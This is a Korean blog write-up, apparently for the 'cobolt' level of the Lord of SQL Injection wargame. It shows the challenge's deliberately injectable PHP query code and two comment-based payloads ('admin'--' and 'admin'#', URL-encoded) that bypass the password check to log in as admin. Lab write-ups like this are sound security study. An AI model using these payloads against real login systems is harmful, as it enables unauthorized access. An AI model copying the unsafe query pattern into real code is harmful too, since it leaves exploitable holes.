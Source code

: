 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cobolt 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `cobolt`이다.  

모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
-------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.  

때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.  

문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.  

어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.  

나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.  

이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.  

따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.  

역시 이번에도 문제가 풀렸다.  

```php
---------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
---------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`COBOLT Clear!!`
